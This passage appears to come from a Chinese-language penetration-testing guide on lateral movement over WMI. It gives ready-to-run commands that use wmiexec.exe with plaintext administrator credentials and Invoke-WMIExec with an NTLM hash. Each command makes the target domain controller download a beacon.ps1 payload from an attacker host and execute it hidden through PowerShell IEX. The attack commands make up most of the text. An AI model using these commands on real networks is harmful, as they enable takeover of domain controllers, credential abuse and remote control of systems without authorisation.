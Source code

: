 

## WMI工具横移

### wmiexec.exe

将wmiexec.exe上传至目标主机，随后执行如下命令，让目标域控上线

```
shell wmiexec.exe administrator:qQ123456@10.10.10.10 "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.3:8000/beacon.ps1'))"
```

![image-20230903113158858](内网横向移动/image-20230903113158858.png)



### Invoke-WMIExec.ps1

首先导入powershell脚本：`Invoke-WMIExec.ps1`

```
powershell-import
```

![image-20230903200909394](内网横向移动/image-20230903200909394.png)



远程执行powershell命令上线域控

```
powershell Invoke-WMIExec -Target 10.10.10.10 -Username administrator -Hash e39c2287a10517cf1cde66bd8c7c6cf0 -Command "powershell.exe -nop -w hidden -c IEX((new-object net.webclient).downloadstring('http://10.10.10.3:8000/beacon.ps1'))" -verbose
```
